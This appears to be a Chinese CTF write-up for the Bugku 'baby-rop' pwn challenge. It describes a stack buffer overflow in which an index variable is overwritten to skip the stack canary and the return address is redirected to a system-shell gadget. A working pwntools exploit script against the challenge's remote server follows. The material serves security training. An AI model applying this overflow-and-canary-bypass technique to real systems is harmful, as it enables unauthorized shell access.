




# baby-rop

[题目链接](https://ctf.bugku.com/challenges/detail/id/561.html)

## 分析过程

首先 IDA 打开题目文件，很明显的看到read这里有栈溢出.v1内存大小为32，而v3循环可以读入48。



继续翻看代码发现，有一个执行system的方法可以获得shell.

0x4007FB



继续分析发现，程序开启了栈保护



构造输入，先用32个字符将v1填满，然后覆盖到v2时，由于v2控制了v1的下标，因此将其改成0x40（栈内临时变量所占用的大小）绕过canary（v4），不修改v3和v4的值使其继续。

然后将0x004007FB地址覆盖到ret读取的地址处。

## exp

```python
from pwn import *
context.log_level = 'debug'
c = remote('82.157.146.43', 14456)

sysaddr = 0x004007FB

payload = b''
payload += p64(sysaddr)
c.send('a'*0x20)
sleep(1)
c.send(p64(0x40))
c.sendline(payload)
c.interactive()
```

运行结果：


